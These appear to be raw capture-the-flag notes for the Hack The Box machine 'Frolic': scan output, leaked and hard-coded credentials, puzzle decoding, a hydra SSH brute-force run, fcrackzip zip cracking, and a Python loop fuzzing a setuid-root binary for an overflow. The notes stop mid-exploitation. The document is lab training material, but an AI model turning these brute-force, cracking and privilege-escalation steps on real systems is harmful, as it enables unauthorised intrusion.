PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
|_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h47m28s, deviation: 3h10m31s, median: 2m31s
| nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   FROLIC<00>           Flags: <unique><active>
|   FROLIC<03>           Flags: <unique><active>
|   FROLIC<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: frolic
|   NetBIOS computer name: FROLIC\x00
|   Domain name: \x00
|   FQDN: frolic
|_  System time: 2021-02-19T16:37:24+05:30
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-19T11:07:24
|_  start_date: N/A




sudo bash -c 'echo "10.10.10.111 forlic.htb frolic.htb" >> /etc/hosts'







http://10.10.10.111:9999/backup/password.txt

password - imnothuman


http://10.10.10.111:9999/backup/user.txt
user - admin





view-source:http://10.10.10.111:9999/admin/js/login.js


var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "admin" && password == "superduperlooperpassword_lol"){
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
return false;
}
else{
attempt --;// Decrementing by one.
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}


http://10.10.10.111:9999/admin/success.html

..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... .....
..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... .....
....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! .....
..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!!
!!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... .....
..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?.
?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... .....
..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!!
!.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!!
!!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?!
.?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?..
!.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?.
?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
!!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!!
!.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!!
!.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. .....
..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!!
!!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!!
!!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .....
..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
..!.! !!!!! !.?.





kali@kali:~/htb/boxes/frolic/10.10.10.111$ hydra -t 1 -v -I -L users.txt -P passwords.txt ssh://10.10.10.111
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-19 12:31:26
[DATA] max 1 task per 1 server, overall 1 task, 2 login tries (l:1/p:2), ~2 tries per task
[DATA] attacking ssh://10.10.10.111:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@10.10.10.111:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.111:22
[STATUS] attack finished for 10.10.10.111 (waiting for children to complete tests)
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-19 12:31:32


node-red 0.19.4


Node-RED provides default values (admin:password)
https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/


https://www.dcode.fr/ook-language





++++++++[->++++++++<]>++++++++++++++.<+++++[->+++++<]>++++++++.+++++.<+++[->---<]>---.+.+++++.-------.<++++++++[->--------<]>-------.<++++++++[->++++++++<]>++++++++.---.<+++[->+++<]>++++.<+++[->---<]>----.<++++++++[->--------<]>-----.<++++++++[->++++++++<]>+++.+++++.---.--.++++++++.<++++++++[->--------<]>-----------.<+++[->+++<]>++++++.<+++++++[->+++++++<]>+.<++++[->++++<]>++.<+++[->---<]>------.+++++.<++++[->----<]>------.<+++[->---<]>-.--------.+++++++++..<+++++[->-----<]>-.<+++++[->+++++<]>++++++++.++++++.<++++[->----<]>--.<+++[->---<]>---.<++++[->++++<]>+.---------.<++++[->++++<]>++.<++++++++[->--------<]>------.---.+++.---.<


Nothing here check /asdiSIAJJ0QWE9JAS


http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/

UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB
BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs
K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve
EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj
lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC
AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG
AAAAAAEAAQBPAAAAAwEAAAAA


PK....	...Ã.7M#þ[.°...i...	...index.phpUT	...|§[.|§[ux.............^Dæ.J.s²h.)...Pðn.©¿Ssä.Jw..Ü.å 4âöÙ.kîzÐ..UÈ.ì+Xº.àPÈá.á¶.¤êлâx_.ÀN.[ý..Sªê8ò.òâ..J2SÇ*..DÐ.}.8dT.Q.kÞ.Ê×ãäûj_..ù.é.À'x.c.Â.Ý.t¾²75Q¬.......k.,4µÙb)¾4Fµé.	ÿº.ã.êéïÇ&q2o.WÔ.ã9PK..#þ[.°...i...PK......	...Ã.7M#þ[.°...i...	...........¤.....index.phpUT....|§[ux.............PK..........O.........


echo "UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB 
BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs                                                                                            
K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve        
EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj        
lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC    
AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG     
AAAAAAEAAQBPAAAAAwEAAAAA" | base64 -d > b64.d


kali@kali:~/htb/boxes/frolic/10.10.10.111$ file b64.d
b64.d: Zip archive data, at least v2.0 to extract  




kali@kali:~/htb/boxes/frolic/10.10.10.111$ fcrackzip -D -u -p passwords.txt b64.zip 
PASSWORD FOUND!!!!: pw == password


base64, hex






idkwhatispass


http://10.10.10.111:9999/dev/backup/
/playsms 












www-data@frolic:/home/ayush/.binary$ ls -alh .
ls -alh .
total 16K
drwxrwxr-x 2 ayush ayush 4.0K Sep 25  2018 .
drwxr-xr-x 3 ayush ayush 4.0K Sep 25  2018 ..
-rwsr-xr-x 1 root  root  7.4K Sep 25  2018 rop





import os
for i in range(1, 1000):
    os.system("./rop2 "+ i*"A")

kali@kali:~/htb/boxes/frolic/10.10.10.111$ ./rop2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
